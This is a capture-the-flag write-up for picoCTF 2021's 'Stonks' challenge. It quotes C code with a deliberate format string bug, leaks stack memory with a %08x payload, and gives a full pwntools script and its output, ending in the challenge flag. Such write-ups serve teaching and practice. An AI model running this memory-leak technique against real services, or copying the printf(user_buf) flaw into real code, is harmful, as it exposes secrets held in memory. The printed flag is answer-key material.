

# Stonks - picoCTF 2021 - CMU Cybersecurity Competition
Binary Exploitation, 20 Points

## Description



 
Attached file [vuln.c](vuln.c)

## Stonks Solution

The attached file ```vuln.c``` contains the following function:
```c
int buy_stonks(Portfolio *p) {
	if (!p) {
		return 1;
	}
	char api_buf[FLAG_BUFFER];
	FILE *f = fopen("api","r");
	if (!f) {
		printf("Flag file not found. Contact an admin.\n");
		exit(1);
	}
	fgets(api_buf, FLAG_BUFFER, f);

	int money = p->money;
	int shares = 0;
	Stonk *temp = NULL;
	printf("Using patented AI algorithms to buy stonks\n");
	while (money > 0) {
		shares = (rand() % money) + 1;
		temp = pick_symbol_with_AI(shares);
		temp->next = p->head;
		p->head = temp;
		money -= shares;
	}
	printf("Stonks chosen\n");

	// TODO: Figure out how to read token from file, for now just ask

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);

	// TODO: Actually use key to interact with API

	view_portfolio(p);

	return 0;
}
```

The function above copy the flag to ```api_buf``` buffer using ```fgets(api_buf, FLAG_BUFFER, f);```.

Then, The function ask for "API token":
```c
...
printf("What is your API token?\n");
scanf("%300s", user_buf);
...
printf(user_buf);
```

And we can see the user input printed by ```printf(user_buf);```, It's mean we can use [Format String Vuln.](https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf) to print ```api_buf``` buffer from stack using ```%08x``` - which print one value from stack.

So let's try it:
```console
┌─[evyatar@parrot]─[/pico2021/Stonks] 
└──╼ $ nc mercury.picoctf.net 33411 
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x
Buying stonks with token:
09a3b3b00804b000080489c3f7f9fd80ffffffff0000000109a39160f7fad110f7f9fdc70000000009a3a1800000000409a3b39009a3b3b06f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6334326136613431ffa8007df7fdaaf8f7fad440c27a0f000000000100000000f7e3cbe9f7fae0c0
Portfolio as of Tue Mar 30 22:43:14 UTC 2021


3 shares of FCLC
1 shares of YBEH
9 shares of RU
63 shares of FTIA
92 shares of F
333 shares of Z
7 shares of XOOJ
87 shares of BV
89 shares of WU
822 shares of KP
Goodbye!
```
So as we can see we get the following hex bytes:```09a3b3b00804b000080489c3f7f9fd80ffffffff0000000109a39160f7fad110f7f9fdc70000000009a3a1800000000409a3b39009a3b3b06f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6334326136613431ffa8007df7fdaaf8f7fad440c27a0f000000000100000000f7e3cbe9f7fae0c0``` which is hex values from stack.

Let's write python code using ```pwntools``` to unpack the hex values from stack into string to get our flag.

So first, connect to server, send the payload and split the response by ```\n``` to get only hex bytes:
```python
from pwn import *

p = remote('mercury.picoctf.net', 33411)

print(p.recvuntil("portfolio"))
p.sendline("1")
print("Sending command: 1")

print(p.recvuntil("?"))
p.sendline("%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x")

print("Sending payload: %08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x")
flag_bytes=p.recvuntil("Portfolio").split('\n')[2]

```

Now, ```flag_bytes``` contains ```09a3b3b00804b000080489c3f7f9fd80ffffffff0000000109a39160f7fad110f7f9fdc70000000009a3a1800000000409a3b39009a3b3b06f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6334326136613431ffa8007df7fdaaf8f7fad440c27a0f000000000100000000f7e3cbe9f7fae0c0```.

We can split it into 8 bytes using the following function:
```python
def split_to_8_bytes_arr(flag_split_by_8_bytes):
        n=8
        return [flag_bytes[i:i+n] for i in range(0, len(flag_bytes), n)]
```

It will return:
```python
['09a3b3b0', '0804b000', '080489c3', 'f7f9fd80', 'ffffffff', '00000001', '09a39160', 'f7fad110', 'f7f9fdc7', '00000000', '09a3a180', '00000004', '09a3b390', '09a3b3b0', '6f636970', '7b465443', '306c5f49', '345f7435', '6d5f6c6c', '306d5f79', '5f79336e', '63343261', '36613431', 'ffa8007d', 'f7fdaaf8', 'f7fad440', 'c27a0f00', '00000001', '00000000', 'f7e3cbe9', 'f7fae0c0']
```

Now, we need to unpack the bytes using ```p32``` and to filter only the printable characters that contains our flag using the following code:
```python
def print_flag_from_hex_arr(hex_arr):
        flag=""
        for byte in flag_split_by_8_bytes:
                upack_byte_str=str(p32(int(byte,16)))
                if all(c in string.printable for c in upack_byte_str):
                        flag+=upack_byte_str
        print("Flag: " + flag + "}")
```

Write all together:
```python
from pwn import *

def split_to_8_bytes_arr(flag_split_by_8_bytes):
        n=8
        return [flag_bytes[i:i+n] for i in range(0, len(flag_bytes), n)]

def print_flag_from_hex_arr(hex_arr):
        flag=""
        for byte in flag_split_by_8_bytes:
                upack_byte_str=str(p32(int(byte,16)))
                if all(c in string.printable for c in upack_byte_str):
                        flag+=upack_byte_str
        print("Flag: " + flag + "}")


p = remote('mercury.picoctf.net', 33411)

print(p.recvuntil("portfolio"))
p.sendline("1")
print("Sending command: 1")

print(p.recvuntil("?"))
p.sendline("%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x")

print("Sending payload: %08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x")
flag_bytes=p.recvuntil("Portfolio").split('\n')[2]

flag_split_by_8_bytes=split_to_8_bytes_arr(flag_bytes)
print_flag_from_hex_arr(flag_split_by_8_bytes)
```

Run it:
```console
┌─[evyatar@parrot]─[/pico2021/Stonks] 
└──╼ $ python stonks.py 
[+] Opening connection to mercury.picoctf.net on port 33411: Done
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
Sending command: 1

Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
Sending payload: %08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x
Flag: picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}
[*] Closed connection to mercury.picoctf.net port 33411
```

```Flag: picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}```.
